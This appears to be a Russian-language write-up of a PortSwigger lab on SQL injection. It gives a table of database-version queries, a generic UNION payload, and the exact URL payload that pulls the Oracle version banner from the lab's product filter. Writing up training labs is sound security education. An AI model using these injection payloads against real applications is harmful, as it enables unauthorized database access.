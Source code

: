 # SQL injection attack, querying the database type and version on Oracle

## Theory

<h3>Запрос типа и версии базы данных</h3>

Разные базы данных предоставляют разные способы запроса своей версии.

Часто приходится пробовать разные запросы, чтобы найти работающий, позволяющий определить как тип, так и версию программного обеспечения базы данных.

[Запросы для определения версии базы данных для некоторых популярных типов баз данных](https://github.com/fobblified/Writeups/tree/main/Portswigger/SQL_injection/SQL_injection_cheatsheet#Database_version)

```
Database type       Query

Microsoft, MySQL    SELECT @@version
Oracle              SELECT * FROM v$version
PostgreSQL          SELECT version()
```

Например, вы можно использовать атаку UNION со следующими входными данными:
```
' UNION SELECT @@version--
```

## Writeup

Главная страница:

![](https://github.com/fobblified/Writeups/blob/main/Portswigger/SQL_injection/SQL_injection_attack_querying_the_database_type_and_version_on_Oracle/assets/1.png)

Выбираем пункт Gifts. Определяем [количество стобцов](https://github.com/fobblified/Writeups/tree/main/Portswigger/SQL_injection/SQL_injection_UNION_attack_determining_the_number_of_columns_returned_by_the_query) и какой [тип данных](https://github.com/fobblified/Writeups/tree/main/Portswigger/SQL_injection/SQL_injection_UNION_attack_finding_a_column_containing_text) они принимают. Вытаскиваем версию базы данных Oracle:
```
/filter?category=Gifts'UNION+SELECT+NULL,banner+FROM+v$version--
```

![](https://github.com/fobblified/Writeups/blob/main/Portswigger/SQL_injection/SQL_injection_attack_querying_the_database_type_and_version_on_Oracle/assets/2.png)

Отправляем запрос и получаем ответ от приложения.

![](https://github.com/fobblified/Writeups/blob/main/Portswigger/SQL_injection/SQL_injection_attack_querying_the_database_type_and_version_on_Oracle/assets/3.png)
